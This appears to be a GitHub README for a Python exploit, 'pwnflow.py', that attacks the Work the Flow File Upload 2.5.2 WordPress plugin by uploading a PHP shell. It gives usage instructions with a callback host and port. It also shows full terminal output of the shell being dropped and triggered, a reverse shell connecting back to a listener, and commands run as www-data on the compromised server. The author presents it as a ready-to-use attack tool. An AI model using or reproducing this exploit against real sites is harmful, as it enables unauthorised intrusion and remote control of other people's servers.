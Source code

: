 # Exploit for Wordpress Work the flow file upload 2.5.2 Shell Upload
This plugin comes with added backdoor upload features, so naturally, I had to quickly knock together an exploit for it. Basically another trivial shell upload, trying to burn through a few of these so I have non-MSF exploits for when needed.

## Usage

To use, simply select which payload you want to use (currently only back_python.php is available, but I plan on adding back_php.php and back_perl.php at a later date). This is the 
"payload.php". You also must specify a callback host and port, along with the URL to the vulnerable Wordpress installation.

Example Use:
```
xrl:~$ python2 pwnflow.py http://192.168.0.15/wordpress/ back_python.php 192.168.0.9 1337

 ██▓███   █     █░███▄    █   █████▒██▓     ▒█████   █     █░
▓██░  ██▒▓█░ █ ░█░██ ▀█   █ ▓██   ▒▓██▒    ▒██▒  ██▒▓█░ █ ░█░
▓██░ ██▓▒▒█░ █ ░█▓██  ▀█ ██▒▒████ ░▒██░    ▒██░  ██▒▒█░ █ ░█ 
▒██▄█▓▒ ▒░█░ █ ░█▓██▒  ▐▌██▒░▓█▒  ░▒██░    ▒██   ██░░█░ █ ░█ 
▒██▒ ░  ░░░██▒██▓▒██░   ▓██░░▒█░   ░██████▒░ ████▓▒░░░██▒██▓ 
▒▓▒░ ░  ░░ ▓░▒ ▒ ░ ▒░   ▒ ▒  ▒ ░   ░ ▒░▓  ░░ ▒░▒░▒░ ░ ▓░▒ ▒  
░▒ ░       ▒ ░ ░ ░ ░░   ░ ▒░ ░     ░ ░ ▒  ░  ░ ▒ ▒░   ▒ ░ ░  
░░         ░   ░    ░   ░ ░  ░ ░     ░ ░   ░ ░ ░ ▒    ░   ░  
             ░            ░            ░  ░    ░ ░      ░    
Exploit for Work The Flow w/ Shell Upload. Version: 20150427.1
{+} Using target URL of: http://192.168.0.15/wordpress//wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php
{+} Our shell is at: http://192.168.0.15/wordpress//wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/pwn%20%281%29.php
{*} Sending Backconnect to 192.168.0.9:1337...
{*} Sending our payload...
{+} Using 192.168.0.9:1337 as callback...
{+} Dropping shell...
{+} Shell dropped... Triggering...
{+} got shell?
xrl:~$
```

Listener (I suggest using the [tcp-pty-shell-handler][shellhandle]):
```
xrl:~$ python2 /tmp/testing/python-pty-shells/tcp_pty_shell_handler.py -b 0.0.0.0:1337
Got root yet?
Linux htp 3.18.0-kali3-amd64 #1 SMP Debian 3.18.6-1~kali2 (2015-03-02) x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</assets/jQuery-File-Upload-9.5.0/server/php/files$ ls
pwn (1).php  pwn.php
</assets/jQuery-File-Upload-9.5.0/server/php/files$ rm *.php
</assets/jQuery-File-Upload-9.5.0/server/php/files$ w
 21:14:42 up  1:25,  3 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty7     :0               19:49    1:25m 15.13s  0.04s gdm-session-wor
root     pts/0    :0.0             19:49    1:00m  6.87s  0.48s bash
root     pts/1    192.168.0.9      20:14    2:10   0.54s  0.54s -bash
</assets/jQuery-File-Upload-9.5.0/server/php/files$ exit
exit
quitting, cleanup
xrl:~$
```

## ASCIICAST
If you want, check out the [Asciicast demo][asciicast]. The ASCII art got a bit fucked this time around due to term resizing.
[![asciicast](https://asciinema.org/a/19276.png)](https://asciinema.org/a/19276)

## Licence
Licenced under the [WTFPL][wtfpl]

[asciicast]: https://asciinema.org/a/19276
[wtfpl]: http://www.wtfpl.net/
[shellhandle]: https://github.com/infodox/python-pty-shells

